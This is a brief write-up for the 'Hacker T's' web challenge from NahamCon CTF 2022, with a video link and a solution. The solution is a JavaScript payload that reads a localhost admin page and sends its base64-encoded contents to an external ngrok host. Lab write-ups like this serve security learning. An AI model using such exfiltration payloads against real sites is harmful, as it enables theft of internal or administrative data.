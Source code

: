 ```yaml
---
name: Hacker T's (2022)
event: NahamCon CTF 2022
category: Web
description: Writeup for Hacker T's (Web) - NahamCon CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Hacker T's

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/ttsFRYkL8wQ/0.jpg)](https://youtu.be/ttsFRYkL8wQ?t=1362 "NahamCon CTF 2022: Hacker T's")

## Description

> We all love our hacker t-shirts. Make your own custom ones.

## Solution

{% code overflow="wrap" %}
```js
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://localhost:5000/admin");
xhr.onload = function () {
    var flag = btoa(xhr.responseText);
    var exfil = new XMLHttpRequest();
    exfil.open("GET", "http://9106-81-103-153-174.ngrok.io?flag=" + flag);
    exfil.send();
};
xhr.send();
```
{% endcode %}
